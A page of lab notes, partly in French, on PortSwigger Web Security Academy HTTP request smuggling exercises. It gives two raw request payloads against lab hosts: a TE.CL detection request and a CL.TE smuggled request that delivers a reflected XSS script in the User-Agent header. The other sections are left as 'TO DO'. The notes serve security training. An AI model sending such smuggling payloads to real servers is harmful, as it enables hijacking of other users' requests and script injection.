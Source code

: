 ### Confirming a TE.CL vulnerability via differential responses

Utiliser l'extension "HTTP Request Smuggler" ou envoyer deux fois la requête suivante : 

    POST / HTTP/1.1
    Host: 0a88000304a0cd288184d42600ce0032.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-length: 4
    Transfer-Encoding: chunked

    5e
    POST /404 HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0

### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

TO DO


### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

TO DO

### Exploiting HTTP request smuggling to reveal front-end request rewriting

TO DO

### Exploiting HTTP request smuggling to capture other users' requests

TO DO

### Exploiting HTTP request smuggling to deliver reflected XSS

    POST / HTTP/1.1
    Host: 0ad300b703e2e092814e708c00d10046.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 150
    Transfer-Encoding: chunked

    0

    GET /post?postId=5 HTTP/1.1
    User-Agent: a"/><script>alert(1)</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5
